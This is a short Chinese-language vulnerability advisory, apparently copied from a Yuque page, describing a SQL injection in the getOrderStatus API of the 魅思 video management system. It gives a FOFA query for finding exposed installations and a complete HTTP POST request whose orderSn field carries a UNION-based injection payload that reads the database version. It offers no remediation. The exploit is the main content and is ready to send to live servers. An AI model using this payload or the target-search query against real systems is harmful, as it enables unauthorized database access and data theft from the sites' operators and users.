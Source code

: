 # 魅思视频管理系统getOrderStatus存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgb(47, 48, 52);">魅思·视频 管理系统是一款集成了视频管理、用户管理、手机端应用封装等功能的综合性视频管理系统。该系统不仅以其强大的视频!理功能、灵活的用户管理机制、便捷的手机端应用封装功能以及高安全性和现代化的界面设计，成为了市场上备受关注的视频管理系统。无论是对于专业的视频内容创作者还是对于需要视频管理功能的企业和个人用户来说，都是一个值得考虑的选择。魅思视频管理系统getOrderStatus存在SQL注入漏洞</font>

# 二、影响版本
+ 魅思视频管理系统

# 三、资产测绘
+ fofa`app="魅思-视频管理系统"`
+ 特征

![1727023836767-354a75c7-a2c7-4473-b02d-e8a3390fcdf9.png](./img/oXIjlwtiyJrE2gt3/1727023836767-354a75c7-a2c7-4473-b02d-e8a3390fcdf9-203027.png)

# 四、漏洞复现
```go
POST /api/getOrderStatus HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
 
orderSn=') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(IFNULL(CAST(VERSION() AS NCHAR),0x20)),NULL,NULL,NULL,NULL,NULL-- -
```

![1727023853414-f66b3415-82fb-4dca-bfa6-1ae7f052f70a.png](./img/oXIjlwtiyJrE2gt3/1727023853414-f66b3415-82fb-4dca-bfa6-1ae7f052f70a-579791.png)



> 更新: 2024-10-22 09:36:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kv3dxee1t0tqrohb>